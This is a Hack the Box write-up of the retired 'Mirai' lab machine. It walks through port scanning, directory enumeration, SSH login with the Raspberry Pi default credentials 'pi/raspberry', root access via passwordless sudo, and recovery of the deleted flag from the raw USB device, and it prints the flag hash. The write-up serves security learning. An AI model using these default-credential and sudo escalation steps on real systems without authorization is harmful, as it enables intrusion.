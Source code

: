 ```yaml
---
layout: post
title:  "Write-up - Hack the Box - Mirai "
date:   2021-02-22 13:27:11 +0100
categories: Infosec
mathjax: false
---
```


This is how I approached the retired box 'Mirai' from [Hack the box](https://www.hackthebox.eu/).

The box IP I'll be using throughout the article is *10.129.101.222*.

Scanning - NMap
---------------

The first step I usually take is to do a [TCP SYN](https://nmap.org/book/synscan.html) scan of the box.

```bash
$ sudo nmap -sS 10.129.101.222

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-22 15:18 EST
Nmap scan report for 10.129.101.222
Host is up (0.020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```

With the `-sV` option of NMap, I then retrieved the name and version of the services running on the open ports:


```bash
$ sudo nmap -sS -sV 10.129.101.222 -p 22,80,53

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-18 02:19 EST
Nmap scan report for 10.129.99.109
Host is up (0.017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp open  domain  dnsmasq 2.76
80/tcp open  http    lighttpd 1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

Webserver
---------

The NMap scan showed that there is a webserver running on port 80. Navigating to http://10.129.101.222 with the browser shows a blank page. 

I then ran Gobuster to see if there are any interesting directories. 

```bash
$ gobuster dir --url http://10.129.101.222 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.101.222
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/18 02:24:05 Starting gobuster
===============================================================
/admin (Status: 301)
/versions (Status: 200)
===============================================================
2021/02/18 02:30:50 Finished
===============================================================
```

Navigating to http://10.129.101.222/admin reveals a [Pi-hole](https://pi-hole.net/) admin console. 

The most commonly used OS for raspberry Pi is Raspberry Pi OS. This operating system comes with a default user with credentials "pi/raspberry". Since the NMap scan showed that port 22 is open, I tried to ssh using the default credentials.

```bash
$ ssh pi@10.129.99.109

The authenticity of host '10.129.101.222 (10.129.101.222)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.101.222' (ECDSA) to the list of known hosts.
pi@10.129.101.222's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Now that we managed to log in, we can read the user flag in `/home/pi/user.txt`.

Sudoers
-------

Since we have credentials for the user, we could be able to use `sudo`. To determine whether we are allowed to sudo, we can use the list `-l` option. 


```bash
pi@raspberrypi:~ $ sudo -l

Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

The [sudoers syntax](https://toroid.org/sudoers-syntax) is quite complex, but let's dissect the output of this `sudo -l`.

1. `(ALL : ALL)`: this is the 'run as' clause. It specifies the target user and the target group (i.e., which users could be used when running `sudo -u` or which groups when running `sudo -g`). If this clause is not present, the user will only be able to run commands as root. If only a username is specified  (for example `(xi)`) or only a group (for example `(:xi-group)`), then one could only use `sudo -u xi` or `sudo -g xi-group` respectively. Here we have `(ALL : ALL)`, which means any user and any group can be used.

2. `(ALL : ALL) ALL`: The last `ALL` refers to which commands can be run as the users specified by the 'run as' clause. So, if we had `(xi : xi-group) /usr/bin/ls`, we would only be able to run as user `xi` or as group `xi-group` the command `/usr/bin/ls`. In this case, `ALL` means all commands.

3. Between the 'run as' clause and the 'commands' clause, there are additional options. In the last line we have `NOPASSWD:`. This means that we can run any command as any user, *without entering a password*!!

When there are more specifications for a single user, the last one is used. Therefore, we can run any command as any user without password. 

```bash
pi@raspberrypi:~ $ sudo su root

root@raspberrypi:/home/pi#
```

Getting the root flag
---------------------

The root flag should be located in `/root/root.txt`...

```bash
root@raspberrypi:/home/pi# cat /root/root.txt 

I lost my original root.txt! I think I may have a backup on my USB stick...
```

Oh no! Quick! Let's find any USB stick plugged into the Raspberry Pi.

```bash
root@raspberrypi:/home/pi# lsblk

NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```

`/media/usbstick` is promising. Inside it we see:

```bash
root@raspberrypi:/home/pi# ls /media/usbstick/

damnit.txt  lost+found
```

Uh oh, the name of the file is all but promising. And indeed...

```bash
root@raspberrypi:/home/pi# cat /media/usbstick/damnit.txt

Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

When deleting a file from a storage device, only the reference to where the file is located in memory is deleted. The content of the deleted files should still be on the USB stick, unless they have been overwritten with new data.

When one writes to an external device, the operating system does not communicate directly to drivers (more information can be found [here](http://www.linux-databook.info/?page_id=5108). It  passes data to a device file, which then passes it on to the driver, which in turns writes it to the physical device. Device files are thus a sort of portal to the drivers. Through the device file, we can access the raw content of the USB stick. 

In the same way as we look for strings in an executable, we can use the `strings` command to retrieve all sequences (in this case I filter out those shorter than 10 characters) of ascii characters present on the device.

```bash
root@raspberrypi:/home/pi# strings -n 10 /dev/sdb 

/media/usbstick
lost+found
damnit.txt
/media/usbstick
lost+found
damnit.txt
/media/usbstick
lost+found
damnit.txt
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
```

Just before the content of the `damnit.txt` file that we had found earlier, we see a hash. This is the root flag!
